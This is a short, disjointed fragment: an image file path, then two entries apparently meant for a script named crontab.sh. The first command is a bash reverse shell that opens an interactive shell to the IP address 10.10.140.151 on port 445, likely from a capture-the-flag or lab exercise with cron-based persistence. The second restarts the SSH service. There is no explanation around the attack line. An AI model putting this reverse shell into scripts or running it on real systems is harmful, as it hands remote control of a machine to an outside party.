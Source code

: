 ./crontab.sh
command
bash -i >& /dev/tcp/10.10.140.151/445 0>&1

./crontab.sh
command
systemctl restart sshd